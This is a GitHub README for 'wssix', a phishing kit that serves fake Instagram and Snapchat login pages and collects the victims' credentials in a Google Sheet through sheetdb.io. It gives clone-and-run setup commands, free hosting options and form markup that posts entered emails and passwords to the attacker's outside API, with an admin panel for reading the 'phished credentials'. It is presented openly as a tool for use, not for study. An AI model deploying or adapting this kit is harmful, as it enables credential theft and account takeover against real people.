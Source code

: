 
# **wssix**

## Benefits of this tool

- Admin panel 
- 24/7 Online 
- No phishing warnings on webpage
- Create unlimited custom phish websites


## **CREATING API key** ...

- First you have to create blank google sheet.
- Make this sheet public and inside this sheet type email and password on first two cells.    ( **Just type these words not your email and password** )
```
   ______________   _______________
|_____EMAIL______| |___PASSWORD____|
```
![](https://raw.githubusercontent.com/Harsh-bash/wssix/aurora/images/screenshot.png)



- Now go to [sheetdb.com](https://sheetdb.io/). Create account and click on create new api and inside this paste your google sheet url ( which we created in first step ).
 
- After this your api key is ready. Api is looks like 

```
https://sheetdb.io/api/v1/xvxbpk*******
```




## 
## **Setup Admin and Phishing Panel**  ...

- Clone this repository
```bash
git clone https://github.com/Harsh-bash/wssix
```
- Go to wssix folder
```bash
cd wssix
```
- Now, run script.py file and enter your api key as an argument . For example:
```bash
python3 script.py YOUR-API-KEY
```
- Your files are ready now !!!!

Now host **Admin** folder and **client** folder.

For hosting : 

- [**Netlify**](https://netlify.com/)
- [**Render**](https://render.com/)

**After hosting client folder you can access phish pages with /**
```
https://*******.***/instagram
```
```
https://*******.***/snapchat
```
### You can see phished credentials on admin panel.

## **How this work!!**

**wssix use [**google sheets**](https://render.com/) for database and [**sheetdb.io**](https://sheetdb.io) for api.**

To send data from your **HTML FORM** to google sheets
- set you form tag **id,method,action and submit** as follow:

```javascript
<form id="sheetdb-form" method="post" action="https://YOUR_SHEETDB_API">
```

- Set **name** in username input tag as follow : 
```javascript
name="data[email]"
```

- Set **name** in password input tag as follow : 
```javascript
name="data[password]"
```

- Set Submit button as follow : 
```javascript
type="submit" name="submit"
```

**Now all data from this form is save in your google sheets and you can access it with this admin panel.**

